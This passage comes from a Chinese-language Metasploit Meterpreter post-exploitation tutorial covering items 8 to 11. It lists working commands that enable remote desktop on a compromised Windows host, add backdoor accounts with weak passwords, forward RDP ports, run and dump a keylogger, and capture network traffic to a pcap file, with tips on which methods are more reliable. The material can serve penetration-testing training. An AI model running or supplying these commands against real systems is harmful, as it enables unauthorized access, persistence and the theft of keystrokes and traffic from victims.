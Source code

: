 利用 espia 模块会自动打开截图的图片，screenshot 不会自动打开，需要自行到 tmp 目录下打开！

8、开启 rdp & 添加用户

1）getgui  

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibDet9lpauGjUeOf8CSWBP1dcNkib9ibcFSJ5dQNtHbwrS9TPTYLibEZWng/640?wx_fmt=png)

```
run getgui -e   #开启远程桌面
run getgui -u dayu1 -p 123456   #添加用户
run getgui -f 9999 –e   #3389端口转发到6661
```

该方法创建用户不稳定…

2）enable_rdp

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibEPozbD6hjrx1O7fk7jLlgQkhtdopHpGsDvUomLicUGdxFcu2iaVHtpLw/640?wx_fmt=png)

```
run post/windows/manage/enable_rdp  #开启远程桌面
run post/windows/manage/enable_rdp USERNAME=test PASSWORD=123456 #添加用户
run post/windows/manage/enable_rdp FORWARD=true LPORT=9998  #将3389端口转发到9998
```

enable_rdp 比 getgui 稳定性好太多，也更实用！！

9. 键盘记录

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibjJaicep2ZfI3QA0V5NaxIPoSyYvzSJvlaTrwOKiavfayTGfrTsubic2aQ/640?wx_fmt=png)

```
keyscan_start    #开始键盘记录
keyscan_dump     #导出记录数据
keyscan_stop   #结束键盘记录
```

注意：导出记录的话要在 keyscan_stop 命令之前，不然结束了就无法导出了

10、sniffer 抓包

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4Srhyaziaibpiav3V5IhU9BBia9A8JVicL94QslxHf5T15B5y7XJDw9ya0AEuCnMsVgA/640?wx_fmt=png)

```
use sniffer
sniffer_interfaces     #查看网卡
sniffer_start 2       #选择网卡 开始抓包
sniffer_stats 2       #查看状态
sniffer_dump 2 /tmp/lltest.pcap  #导出pcap数据包
sniffer_stop 2       #停止抓包
```

这里非常实用的抓包…

11. 注册表操作  

1）参数列表如下  
